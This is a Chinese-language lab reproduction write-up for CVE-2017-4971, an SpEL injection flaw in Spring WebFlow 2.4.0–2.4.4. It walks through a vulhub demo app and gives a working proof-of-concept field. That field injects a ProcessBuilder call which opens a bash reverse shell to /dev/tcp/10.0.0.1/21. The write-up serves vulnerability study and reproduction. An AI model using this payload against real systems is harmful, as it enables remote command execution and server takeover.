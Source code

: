（CVE-2017-4971）Spring WebFlow 远程代码执行漏洞
================================================

一、漏洞简介
------------

Spring WebFlow
是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其
2.4.x
版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

二、漏洞影响
------------

Spring Web Flow 2.4.0版本至2.4.4版本

三、复现过程
------------

首先访问`http://www.0-sec.org:8080/login`，用页面左边给出的任意一个账号/密码登录系统：![1.png](./resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId24.png)然后访问id为1的酒店`http://www.0-sec.org/hotels/1`，点击预订按钮"Book
Hotel"，填写相关信息后点击"Process"（从这一步，其实WebFlow就正式开始了）：

![2.png](./resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId25.png)

再点击确认"Confirm"：

![3.png](./resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId26.png)此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

    _(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub

![4.png](./resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId27.png)（注意：别忘记URL编码）

成功执行，获得shell：

![5.png](./resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId28.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-4971
